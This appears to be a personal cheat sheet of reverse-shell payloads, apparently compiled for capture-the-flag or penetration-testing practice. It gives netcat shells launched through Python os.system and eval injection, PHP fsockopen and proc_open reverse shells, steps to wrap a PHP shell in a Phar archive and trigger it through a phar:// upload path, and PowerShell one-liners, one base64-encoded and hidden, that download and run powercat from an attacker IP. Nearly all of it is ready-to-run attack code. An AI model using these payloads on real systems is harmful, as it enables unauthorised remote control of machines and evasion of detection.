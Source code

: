 ```bash
# When using os
os.system('nc 192.168.45.175 80 -e /bin/sh')

# When putting directly to input or inside of eval
__import__('os').system('bash')
' + __import__('os').popen('id').read() + '

# netcat reverse shell
nc -e /bin/sh 192.168.45.176 80

++++++++++++++++ PHP reverse shell ++++++++++++++++++++++++++++++++++++++++++++
# PHP reverse shell
php -r '$sock=fsockopen("192.168.45.176",80);exec("/bin/sh -i <&3 >&3 2>&3");'

# When we want to know what we should use
<?php phpinfo(); ?>

# PHP proc_open reverse shell
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.19/443 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
?>

# Convert PHP file to Phar #################################################
0. get your reverse shell ready(example is using the one avobe - proc_open_rev.php)

1. test.php file(when we convert this, it will create an archive named "shell.phar"
<?php
$phar = new Phar('shell.phar'); 
$phar->startBuffering();
$phar->addFile('./proc_open_rev.php', 'proc.php');        // first create proc_open_rev.php reverse shell and then give it a name proc
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering(); ?>

2. convert php file
php --define phar.readonly=0 test.php

3. When you call phar file with phar wrapper
http://dev.siteisup.htb/?page=phar://uploads/ac5052094c12a761f080438aeb6c9634/proc.jpg/proc

++++++++++++++++++++++++++++++++++++++++++++ powershell ++++++++++++++++++++++++++++++++++++++++++++

# Powershell: w powercat
IEX(New-Object System.Net.Webclient).DownloadString("http://192.168.45.176/powercat.ps1");powercat -c 192.168.45.176 -p 4444 -e powershell
powershell.exe -nop -w hidden -c "IEX ((New-Object Net.WebClient).DownloadString(''http://192.168.45.202/powercat.ps1''))";powercat -c 192.168.45.202 -p 443 -e powershell

# when executing with base64 encoded
powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANwA2AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAIgApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANwA2ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwACgA=

```